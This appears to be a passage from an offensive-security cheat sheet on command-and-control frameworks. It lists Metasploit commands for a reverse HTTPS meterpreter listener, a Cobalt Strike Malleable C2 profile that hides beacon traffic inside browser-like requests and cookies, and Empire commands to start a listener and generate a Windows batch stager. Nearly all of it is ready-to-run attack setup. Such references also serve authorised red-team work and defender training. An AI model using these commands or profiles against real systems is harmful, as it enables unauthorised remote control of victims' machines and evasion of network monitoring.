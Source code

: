 ### C2 Frameworks

#### Metasploit Framework

```bash
# Set up listener
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.0.0.1
set LPORT 443
exploit -j

# Interact with session
sessions -i 1
```

#### Cobalt Strike

```bash
# Commercial C2 framework
# Features:
# - Malleable C2 profiles (customize traffic)
# - Beacon payload
# - Team server for collaboration
# - Advanced post-exploitation
# - Reporting capabilities

# Example Malleable C2 profile
http-get {
    set uri "/updates";
    client {
        header "User-Agent" "Mozilla/5.0...";
        metadata {
            base64url;
            prepend "session=";
            header "Cookie";
        }
    }
    server {
        header "Content-Type" "text/html";
        output {
            base64;
            print;
        }
    }
}
```

#### Empire/Starkiller

```bash
# PowerShell-based C2
# Start Empire
./empire

# Create listener
listeners
uselistener http
set Host http://10.0.0.1:8080
execute

# Generate stager
usestager windows/launcher_bat
set Listener http
```